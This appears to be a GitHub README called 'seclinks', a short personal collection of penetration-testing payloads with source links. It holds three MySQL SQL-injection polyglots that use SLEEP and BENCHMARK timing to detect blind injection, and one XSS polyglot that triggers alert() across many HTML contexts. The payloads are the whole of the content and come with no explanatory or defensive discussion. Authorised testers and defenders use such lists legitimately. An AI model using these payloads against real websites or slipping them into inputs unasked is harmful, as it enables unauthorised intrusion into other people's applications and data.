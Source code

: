 # seclinks
Collection of my various security/penetration testing resources

SQL Injection:  
    MySQL universal SQLi payload (https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/):  
> IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20injection/Payloads/SQLi_Polyglots.txt:

> SLEEP(1) /*‘ or SLEEP(1) or ‘“ or SLEEP(1) or “*/

> SELECT 1,2,IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),​SLEEP(1)))OR"*/ FROM some_table WHERE ex = ample


XSS:  
    XSS Polyglot (https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) 
> jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e



